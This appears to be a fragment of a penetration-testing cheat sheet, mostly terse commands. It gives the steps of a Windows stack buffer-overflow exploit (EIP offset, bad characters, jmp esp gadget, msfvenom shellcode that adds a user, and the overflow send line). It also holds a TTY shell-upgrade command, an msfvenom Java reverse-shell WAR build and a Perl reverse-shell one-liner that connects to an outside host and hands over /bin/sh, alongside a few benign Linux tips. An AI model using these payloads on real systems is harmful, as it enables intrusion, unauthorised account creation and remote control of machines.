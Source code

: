 * Windows
Open Tools folder, click putty, type linux ip and run.
## Immunity Debugger
* run exe, attach the execute exe
* record EIP address
```
$ cyclic -l 0xEIP
```
* find badchars(see code)
* find return address
find dll, and type e button to observe, then we can search for jmp esp address(gadget).
```
!moma modules
```
## generate shellcode
```
$ msfvenom --platform Windows -a x86 -p windows/adduser USER=aaa PASS=aaa -f python –e x86/shikata_ga_nai -b "\x00\x0a"
```
## send code
```
r.send("GO" + "A"*2006 + p32(gadget) + "\x90" * 8 + buf)
```
### Others
## linux execute jar file
```
$ java -jar xx.jar
```
## execute sh error
$'\r': command not found convert win dos to unix, it need to convert win dos to unix.
* dos2unix
```
$ dos2unix xxx.sh
```
## use python to call bash (with TTY)
```
$ python -c 'import pty;pty.spawn("/bin/bash")'
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
## can not find ifconfig
* ip a
* or try to fix ifconfig:
```
$ whereis ifconfig
$ PATH="$PATH":/sbin
```
## create shell use msfvenom
```
$ msfvenom -p java/shell_reverse_tcp LHOST=ip LPORT=port -f war > reverse.war
```
## FreeBSD reverse shell
```
$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```